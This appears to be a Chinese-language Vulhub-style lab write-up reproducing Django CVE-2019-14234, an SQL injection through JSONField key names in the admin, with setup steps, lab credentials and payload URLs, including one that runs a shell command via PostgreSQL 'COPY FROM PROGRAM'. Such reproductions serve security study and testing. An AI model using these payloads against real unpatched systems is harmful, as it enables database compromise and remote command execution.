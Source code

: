 # Django JSONField/HStoreField SQL注入漏洞 CVE-2019-14234

## 漏洞描述

Django在2019年8月1日发布了一个安全更新，修复了在JSONField、HStoreField两个模型字段中存在的SQL注入漏洞。

参考链接：

- https://www.djangoproject.com/weblog/2019/aug/01/security-releases/
- https://www.leavesongs.com/PENETRATION/django-jsonfield-cve-2019-14234.html

该漏洞需要开发者使用了JSONField/HStoreField，且用户可控queryset查询时的键名，在键名的位置注入SQL语句。Django自带的后台应用Django-Admin中就存在这样的写法，我们可以直接借助它来复现漏洞。

## 影响版本

```
Django (1.11.x) Version < 1.11.23
Django (2.1.x) Version < 2.1.11
Django (2.2.x) Version < 2.2.4
```

## 环境搭建

Vulhub执行如下命令编译及启动一个存在漏洞的Django 2.2.3：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8000`即可看到Django默认首页。

## 漏洞复现

首先登陆后台`http://your-ip:8000/admin/`，用户名密码为`admin`、`a123123123`。

登陆后台后，进入模型`Collection`的管理页面`http://your-ip:8000/admin/vuln/collection/`：

![image-20220222163035330](./images/202202221630392.png)

然后在GET参数中构造`detail__a'b=123`提交，其中`detail`是模型`Collection`中的JSONField：

```
http://your-ip:8000/admin/vuln/collection/?detail__a%27b=123
```

可见，单引号已注入成功，SQL语句报错：

![image-20220222163246655](./images/202202221632754.png)

命令执行，执行`touch /tmp/awesome_poc`，可以替换成其他命令并且执行。

```
http://your-ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'touch /tmp/awesome_poc'--%20 
```

提示`no results to fetch`即为执行成功。

![image-20220222164004504](./images/202202221640588.png)

